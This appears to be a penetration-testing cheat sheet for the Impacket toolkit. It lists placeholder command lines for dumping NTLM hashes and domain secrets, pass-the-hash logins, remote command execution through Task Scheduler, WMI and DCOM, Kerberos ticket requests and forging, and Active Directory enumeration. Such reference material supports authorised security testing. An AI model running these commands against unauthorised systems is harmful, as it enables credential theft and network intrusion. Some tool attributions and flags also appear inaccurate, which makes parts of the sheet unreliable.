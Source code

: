 ### **IMPACKET TOOLKIT**

Impacket is a collection of Python classes for working with network protocols. It is highly regarded in the cybersecurity community for its ability to handle low-level network tasks and its extensive support for various protocols, making it an essential toolkit for penetration testers and security researchers.

### **PROTOCOLS SUPPORTED:**

### **SMB/SMB2**

SMBCLIENT.PY: Interactive SMB client to work with shares.

   1.  Access SMB shares interactively  
        `smbclient.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]`

   2.  Lists all available shares on the target.  
        `smbclient.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] -L`

SECRETSDUMP.PY: Dumps secrets from the remote machine without executing any agent.
    
   1.  Dumps NTLM hashes of all domain users from a domain controller.  
        `secretsdump.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]`

   2.  Dump NTLM Hashes Using Pass-the-Hash:  
        `secretsdump.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS]`
		
NETVIEW.PY: Enumerates shares and sessions on the network.
    
1.  Enumerate network shares and sessions  
     `netview.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]`
2.  Enumerate Shares Using Pass-the-Hash:  
     `netview.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS]`

### **MSRPC**

RPCCLIENT.PY: A tool to execute client-side MSRPC calls.

1.  Execute MSRPC client calls  
      `rpcclient.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]`

2.  Enumerate Domain Users:  
      `rpcclient.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] -c "enumdomusers"`

3.  Enumerate Domain Groups:  
      `rpcclient.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] -c "enumdomgroups"`

 4.  Execute Command on Target Machine:  
     `rpcclient.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] -c "cmd"`

RPCDUMP.PY: Dumps information about endpoints and interfaces.
 
 1.  Dump RPC endpoints and interfaces info  
     `rpcdump.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]`

2.  Dump RPC Endpoints Using Pass-the-Hash:  
     `rpcdump.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS]`

3.  Dump RPC Endpoints with No Credentials:  
    `rpcdump.py -no-pass [DOMAIN]/[USERNAME]@[IP-ADDRESS]`

### **DCE/RPC**

ATEXEC.PY: Executes commands using the Task Scheduler service.

1.  Execute command using Task Scheduler  
    `atexec.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] [COMMAND]`

2.  Execute Command Using Pass-the-Hash:  
   `atexec.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS] [COMMAND]`

3.  Execute Command with No Credentials:  
    `atexec.py -no-pass [DOMAIN]/[USERNAME]@[IP-ADDRESS] [COMMAND]`

WMIEXEC.PY: Executes commands via WMI.

1.  Execute command via WMI  
        `wmiexec.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] [COMMAND]`

2.  Execute Command Using Pass-the-Hash:  
        `wmiexec.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS] [command]`

3.  Execute Command with No Credentials:  
        `wmiexec.py -no-pass [DOMAIN]/[USERNAME]@[IP-ADDRESS] [COMMAND]`

DCOMEXEC.PY: Executes commands using DCOM.

1.  Execute command using DCOM  
      `dcomexec.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] [COMMAND]`

2.  Execute Command Using Pass-the-Hash:  
      `dcomexec.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS] [COMMAND]`

3.  Execute Command with No Credentials:  
    `dcomexec.py -no-pass [DOMAIN]/[USERNAME]@[IP-ADDRESS] [COMMAND]`

### **LDAP**

GETADUSERS.PY: Enumerates all users in the domain.
    
1.  Enumerate all domain users  
    `GetADUsers.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]`

2.  Enumerate all users including disabled accounts  
   `GetADUsers.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] -all`

3.  Use Pass-the-Hash for Enumeration:  
   `GetADUsers.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS]`

GETUSERSPNS.PY: Enumerates Service Principal Names (SPNs) that are associated with user accounts.
    
1.  Enumerate user SPNs  
   `GetUserSPNs.py [DOMAIN]/[USERNAME]:[PASSWORD] -dc-ip [IP-ADDRESS]`

2.  Request TGS for identified SPNs  
   `GetUserSPNs.py [DOMAIN]/[USERNAME]:[PASSWORD] -request -dc-ip [IP-ADDRESS]`

3. Use Pass-the-Hash to enumerate SPNs.  
    `GetUserSPNs.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME] -dc-ip [IP-ADDRESS]`

WINDAPSEARCH.PY: performs LDAP queries against Windows Active Directory to enumerate objects like users and groups.
    
1.  Enumerates Group Policy Objects  
   `python3 windapsearch.py --dc-ip [IP-ADDRESS] -u [USERNAME]@[DOMAIN] -p [PASSWORD] --gpos`

2.  Enumerates objects with administrative privileges  
   `python3 windapsearch.py --dc-ip [IP-ADDRESS] -u [USERNAME]@[DOMAIN] -p [PASSWORD] --admin-objects`

3.  Enumerates users with Service Principal Names (SPNs)  
   `python3 windapsearch.py --dc-ip [IP-ADDRESS] -u [USERNAME]@[DOMAIN] -p [PASSWORD] --user-spns`

4.  Enumerates users with unconstrained delegation  
    `python3 windapsearch.py --dc-ip [IP-ADDRESS] -u [USERNAME]@[DOMAIN] -p [PASSWORD] --unconstrained-users`

5.  Enumerates computers with unconstrained delegation  
   `python3 windapsearch.py --dc-ip [IP-ADDRESS] -u [USERNAME]@[DOMAIN] -p [PASSWORD] --unconstrained-computers`

### **KERBEROS**

TICKETER.PY: Generates Kerberos tickets that can be used for various attacks.

1.  Generate a TGT ticket for a user  
   `ticketer.py -nthash [NTHASH] -domain-sid [SID] [USERNAME]`

2.  Generate a service ticket for a user and SPN  
   `ticketer.py -nthash [NTHASH] -domain-sid [SID] -request [USERNAME] [SPN]`

3.  Generate TGT Ticket with AES Encryption:  
   `ticketer.py -aesKey [AESKEY] -domain-sid [SID] [USERNAME]`

GETNPUSERS.PY: Checks for accounts with Kerberos pre-authentication disabled and extracts their TGT data.

1.  Enumerate accounts with pre-auth disabled  
   `GetNPUsers.py [DOMAIN]/[USERNAME]:[PASSWORD] -dc-ip [IP-ADDRESS]`

2.  Request TGT for identified accounts  
   `GetNPUsers.py [DOMAIN]/[USERNAME]:[PASSWORD] -request -dc-ip [IP-ADDRESS]`

3.  Request TGT Using Kerberos Authentication:  
   `GetNPUsers.py -k [DOMAIN]/[USERNAME] -request -dc-ip [IP-ADDRESS]`

### **NTLM**

LOOKUPSID.PY: Enumerates domain SID information.

1.  Enumerate domain SID info  
     `lookupsid.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]`

2.  Enumerate Domain SID Info Using Pass-the-Hash:  
     `lookupsid.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS]`

3.  Enumerate Domain SID Info with No Credentials:  
      `lookupsid.py -no-pass [DOMAIN]/[USERNAME]@[IP-ADDRESS]`

SECRETSDUMP.PY: Dumps secrets from the remote machine without executing any agent.

1.  Dump secrets from a remote machine  
     `secretsdump.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]`

2.  Dump secrets from the domain controller  
    `secretsdump.py -just-dc-user [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]`

3.  Dump Secrets Using Pass-the-Hash:  
   `secretsdump.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS]`
